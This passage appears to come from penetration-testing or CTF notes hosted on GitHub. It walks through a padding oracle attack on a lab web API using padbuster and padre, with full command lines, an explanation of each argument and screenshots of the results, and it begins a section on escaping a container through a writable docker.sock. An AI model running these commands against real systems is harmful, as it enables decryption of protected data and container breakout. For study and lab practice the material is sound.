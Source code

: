 - Syntax-: `padbuster http://10.10.31.207:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 16 -encoding 2`

- URL – This is the URL that you want to exploit, including query string if present. There are optional switches to supply POST data (-post) and Cookies if needed (-cookies)
    Encrypted Sample – This is the encrypted sample of ciphertext included in the request. This value must also be present in either the URL, post or cookie values and will be replaced automatically on every test request
    Block Size – Size of the block that the cipher is using. This will normally be either 8 or 16, so if you are not sure you can try both

For this example, we will also use the command switch to specify how the encrypted sample is encoded. By default PadBuster assumes that the sample is Base64 encoded, however in this example the encrypted text is encoded as an uppercase ASCII HEX string. The option for specifying encoding (-encoding) takes one of the following three possible values:

    0: Base64 (default)
    1: Lowercase HEX ASCII
    2: Uppercase HEX ASCII

- In the syntax provided above, the ciphertext is divided into 4 blocks which is why it is set to 16
- Results-:

![image](https://github.com/user-attachments/assets/2a45a581-5d84-4ef8-a893-73bc92fe73f9)

![image](https://github.com/user-attachments/assets/743ad518-fe15-407f-87ea-89237ef10f9b)

- You can also use padre which is faster than padbuster.Syntax-:

```bash
padre -u "http://10.10.88.80:8080/api/debug/$" -err "Decryption error" -e lhex "39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4"
```

![image](https://github.com/user-attachments/assets/2876f594-ed40-4e99-a541-bc7a7307f10b)

------------

### REFERENCE-:

- [Aon's blog](https://www.aon.com/cyber-solutions/aon_cyber_labs/automated-padding-oracle-attacks-with-padbuster/)

-------------

### Exploting writable docker.sock to breakout of container

------------

- `Docker.sock` daemon which is used by docker to communicate with docker api.Use the find command `find / -name "docker.sock" -type f 2</dev/null` or it can spotted with `linpeas.sh`.
